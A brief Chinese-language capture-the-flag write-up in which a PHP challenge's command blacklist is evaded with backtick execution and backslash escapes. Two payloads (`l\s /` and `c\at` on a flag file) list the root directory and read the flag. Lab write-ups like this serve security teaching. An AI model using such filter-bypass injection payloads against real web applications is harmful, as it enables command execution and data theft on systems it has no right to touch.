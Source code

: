 ![img](./assets/wps290.jpg)

分析源码
get传参code

过滤系统命令

'/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i'

 

没有过滤 ``

利用\绕过过滤

并利用``执行命令 

利用printf打印结果

这里也可以用print_r()打印结果

也可以用var_dump(),var_export()等打印

 

 

构造payload:

?code=printf(`l\s /`);

![img](./assets/wps291.jpg) 

发现存在

Fffffffffflagafag

 

读取 ?code=printf(`c\at /fffffffffflagafag`);

 

 

![img](./assets/wps292.jpg) 

 